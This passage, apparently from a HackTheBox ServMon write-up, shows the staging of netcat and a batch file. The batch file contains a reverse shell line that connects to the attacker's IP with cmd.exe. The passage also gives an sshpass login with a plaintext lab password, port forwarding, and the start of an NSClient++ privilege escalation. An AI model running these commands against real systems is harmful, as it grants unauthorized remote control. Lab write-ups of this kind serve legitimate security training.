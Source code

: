 ```
nadine@SERVMON C:\tmp>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 20C1-47A1

 Directory of C:\tmp

08/17/2024  09:20 PM    <DIR>          .
08/17/2024  09:20 PM    <DIR>          ..
08/17/2024  09:20 PM                40 evil.bat
08/17/2024  09:20 PM            45,272 nc.exe
               2 File(s)         45,312 bytes
               2 Dir(s)   6,087,421,952 bytes free
```

SMB was disabled on this box, so our usual, `impacet-smbserver` did not work. I spin up a python server on kali using `python -m http.server` from the `/Download/ServMon.HTB` Directory. This directory has both nc.exe and evil.bat. Now Here is the content of `evil.bat`.

```
$ more evil.bat 
C:\tmp\nc.exe 10.10.16.5 443 -e cmd.exe
```

The `evil.bat` triggers the `nc.exe` command with `-e` switch to start the cmd.exe. Now we will need to run the external script. OH! I forgot to mention that now you will need to ssh again to the `nadine` user and setup a `port forwarding`. So basically SSH into the box as user `nadine` with the following command. 

```
$ sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

Now as mentioned above, NSClient++ is running on Port `8443/tcp` and in the above command, we have setup the local `port forwarding` so that now we can access NSClient++ into our web browser using `https://127.0.0.1:8443/`.

![](Pasted%20image%2020240818002646.png)

Great!. Now we will use the password we have obtained from the `nsclient.ini` file and Login. The reason password work here is because we have setup `port forwarding`. Now Let's setup the External Script. **Settings --> External Script --> Scripts --> Add New**

